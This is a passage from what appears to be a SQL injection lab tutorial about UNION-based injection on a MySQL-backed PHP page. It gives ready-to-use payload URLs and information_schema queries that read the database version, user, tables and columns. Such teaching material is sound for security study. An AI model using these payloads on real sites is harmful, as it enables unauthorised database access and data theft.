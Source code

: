 ```

Now that we know the number of columns, we can retrieve information from the database. Based on the error message we received, we know that the backend database used is MySQL.

Using this information, we can force the database to perform a function or to send us information:

* the user used by the PHP application to connect to the database with `current_user()`
* the version of the database using `version()`

In order to perform this, we are going to need to replace one of the values in the previous statement (`UNION SELECT 1,2,3`) by the function we want to run in order to retrieve the result in the response.Make sure you always keep the right number of columns when you try to retrieve information.

You can for example access the following URL's to retrieve this information:

* the database version: [http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,@@version,3,4](http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,@@version,3,4)
* the current user: [http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,current\_user(),3,4](http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,current\_user%28%29,3,4)
* the current database: [http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,database(),3,4](http://vulnerable/cat.php?id=1%20UNION%20SELECT%201,database%28%29,3,4)

We are now able to retrieve information from the database and retrieve arbitrary content. In order to retrieve information related to the current application, we are going to need:

* the name of all tables in the current database
* the name of the column for the table we want to retrieve information from

MySQL provides tables containing meta-information about the database, tables and columns available since the version 5 of MySQL. We are going to use these tables to retrieve the information we need to build the final request. These tables are stored in the database information\_schema.\
The following queries can be used to retrieve:

* the list of all tables: `SELECT table_name FROM information_schema.tables`
* the list of all columns: `SELECT column_name FROM information_schema.columns`

By mixing these queries and the previous URL, you can guess what page to access to retrieve information:

* the list of tables: `1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables`
* the list of columns: `1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns`

The problem, is that these requests provide you a raw list of all tables and columns, but to query the database and retrieve interesting information, you will need to know what column belongs to what table. Hopefully, the table information\_schema.columns stores table names:

```
SELECT table_name,column_name FROM information_schema.columns
```

To retrieve this information, we can either

* put table\_name and column\_name in different parts of the injection: `1 UNION SELECT 1, table_name, column_name,4 FROM information_schema.columns`
* concatenate table\_name and column\_name in the same part of the injection using the keyword CONCAT: `1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns`. `':'` is used to be able to easily split the results of the query.

If you want to easily retrieve information from the resulting page using a regular expression (if you want to write an SQL injection script for example), you can use a marker in the injection: \`\`1 UNION SELECT 1,concat('^^^',table\_name,':',column\_name,'^^^') FROM information\_schema.columns\`. It then is really easy to match the result in the page.

```